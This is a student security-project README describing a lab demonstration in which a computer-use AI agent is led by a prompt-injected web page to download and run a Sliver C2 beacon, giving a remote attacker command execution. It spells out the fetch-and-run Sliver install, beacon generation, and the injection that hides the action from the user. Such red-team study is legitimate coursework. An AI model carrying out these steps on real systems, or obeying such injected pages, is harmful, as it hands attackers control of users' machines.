


# Attack Vector

Extending LLM applications to allow clicking and bash commands opens entirely new avenues of attack for prompt injection. The following instructions outline how LLM computer use can be used to activate attacks that traditionally required some form of social engineering by bypassing the human user while the AI agent is processing a request.

To realise the absurd risk, this demo will allow a remote computer to exicute commands on a victim's machine by using standard promt-injection style attacks combined with a download link (during a plausable user request) to run code on the machine.

### Description of the code:
- Based on the attack vectors explored by the other teammates, the simplest way to achive this attack is through a standard link-initialized phishing attack. Any request that is suseptable to the demonstrated "click-link" attack vector can be made vulnerable to this attack.
- Some light prompt injection before the download link was required to hide the action from the user.

# Reproduction Process:

> [!CAUTION]
> The following procedure invovles open-source "red team" code. Proceed at your own risk.

To begin the process, you will need an apache2 server running at an accessable location.

1. In a quarantined linux enviroment run the following command: `curl https://sliver.sh/install|sudo bash`
2. run `sliver`
3. sliver > `sessions` will list all current sessions. Currently, this list should be empty.

4. Start up the "victim" machine and start an appication that implements functions using Anthropic's computer use API. In this project, we used a docker enviroment and the demo computer use app provided by Anthropic. The instructions for starting this enviroment can be found in the [main README](https://github.com/zkoenigxd/llm-security/blob/main/README.md).
5. sliver > `generate beacon --mtls **YOUR_SERVER_LOCATION** --os linux` will create an exicutable that will subscribe the victim to the C2 server when the file is downloaded and run.
    - Note: If running both processes on a VM, you will need to attach the VM network adapter to the "Bridged Adapter" to allow accesses between systems (the default setting in Virtual Box only allow the host machine to connect).
    - You can retrive **YOUR_SERVER_LOCATION** with `ip a`.
    - This can be used against any system type by changing the os flag, refernce the [Sliver documentation](https://sliver.sh/) for further usage instructions.
6. This file must then be hosted on a webpage, accessable by a download link.
    - Note: The computer-use "agent" will be more responsive to webpages and files with benign names.
7. Direct the AI to go to the page to download and run the file.
    - An [example page](https://github.com/zkoenigxd/llm-security/blob/main/scenarios/zach_remote_access/sampleAttack.html) which closely mimics the language used in my own testing can be found in the current directory.
    - As mentioned, propting the model to achive this behavior is exlored in other tests.
    - Depending on the enviroment, the bash command may time out (python may need to be downloaded and the computer use system times out bash commands after 120 sec).
        - For demo or lab purposes, it may serve to manually download some dependencies before testing the attack with the AI tool.
        - This attack may perform better or worse depending on the performance of the victim platform.
    - Note: Given the limited capabilities of the current generation of computer use, this attack often fails to succeed without additional user input. It may:
        - Question directions to poorly known webpages
        - Open an app that is not a web browser
        - Fail to click the search bar
        - Miss-click the "Download" button or link (depending on your implementation)
    - Despite the above limitations, it is often able to quickly and without prompting the user download, apply execute permissions, and run the script assuming the link can be asertained.
8. Proof of attack success can be verified with the command sliver > `beacons`
    - The info should display the name of the .exe used for the capture and the user name (by default, this demo's name is "computeruse")
9. Run any command on the victim machine (usage can be found in the [Sliver documentation](https://sliver.sh/) or by running sliver > `help`)

# Presenatation:
### My contribution to the group project:
- Set up the git and project enviroment.
- Walked the team through running the project and ensured each member had the base project running
- Read and researched the Anthropic computer use documentation and shared the results with the team.
    - Researched AI tool use
    - Researched currently available computer-use apps
    - Discovered attack vectors based on the API's limitations and inherit vulnerabilities.
- Demoed the Command and Control attack vector.

### Code and demonstration of results:
- The small bit of code needed and the description of the process can be found in the current folder and above in this file.

### What was learned:
### How it applies to Computer Systems Security:
### Application areas: 

### Challenges and Lessons Learned
1. Installing and running docker
    - With no prior experience with docker and having just learned the fundamentals of VMs, getting the enviroment set up in a safe way was a major hurtle.
    - It was discovered that running docker on a VM required some special configuartions be made on the host machine, and the performance proved atrocious.
    - After researching the technology, it was discovered that docker enviroments provided adiquite security on the host device for the tests we intended to run.
    - Lesson - always, ALWAYS read the docs of any unfamiliar technology.

# Submission:

Full commented code and the code is clean, formatted.

The README file in the GitHub repository indicates clearly how to easily clone and build/deploy the code. The README file in the GitHub repository clearly indicates what functionality does (and does not, if applicable) work in the final version of the application. Additionally, it should include references to two scholarly papers: one representing prior research, serving as the foundational bedrock for the current study, and another representing contemporary work that acknowledges and builds upon the findings of the current paper. This practice is akin to the methodology of an archeologist, meticulously documenting the lineage of ideas and advancements within the academic landscape.

Any data required to test/demo the application has been provided within the project. Instructors can run the code and reproduce the results shown in the class.